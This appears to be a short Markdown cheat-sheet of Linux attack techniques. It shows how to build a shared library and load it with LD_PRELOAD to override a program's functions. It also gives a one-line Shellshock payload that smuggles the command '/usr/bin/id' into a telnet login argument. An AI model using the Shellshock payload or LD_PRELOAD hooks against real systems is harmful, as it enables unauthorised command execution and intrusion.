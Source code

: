 # OS Linux Specific

## LD_PRELOAD
- Load a custom library and override functions of a program
```
g++ test.cpp -std=c++11 -shared -o test.so -fPIC  #PIC=Position independent code
LD_PRELOAD=test.so ldd ./exampleapp
```

## Shellshock over Telnet
```
telnet 192.168.0.1 -l "() { :;}; /usr/bin/id"
```
